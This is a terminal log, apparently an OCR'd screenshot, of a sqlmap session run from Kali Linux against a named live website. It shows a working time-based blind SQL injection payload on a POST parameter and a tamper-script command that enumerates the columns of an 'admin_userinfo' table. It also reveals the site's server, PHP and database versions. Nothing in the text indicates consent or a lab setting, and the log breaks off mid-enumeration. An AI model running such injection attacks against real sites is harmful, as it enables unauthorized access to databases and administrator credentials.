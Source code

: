 | user_rights              |
| webapps                  |
+--------------------------+

[16:44:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 16:44:05

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo --columns
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:44:26

[16:44:26] [INFO] loading tamper module 'between'
[16:44:26] [INFO] resuming back-end DBMS 'mysql' 
[16:44:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:44:27] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:44:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:44:27] [INFO] fetching columns for table 'admin_userinfo' in database 'qaisare_com'
[16:44:27] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:44:35] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[16:44:35] [ERROR] unable to retrieve the number of columns for table 'admin_userinfo' in database 'qaisare_com'
[16:44:35] [WARNING] unable to retrieve column names for table 'admin_userinfo' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
[16:44:37] [WARNING] it's not recommended to use 'AND/OR time-based blind' and/or 'stacked queries' for common column existence check
are you sure you want to continue? [y/N] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[16:44:40] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[16:44:40] [INFO] adding words used on web page to the check list
[16:45:05] [INFO] tried 94/2499 items (4%)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y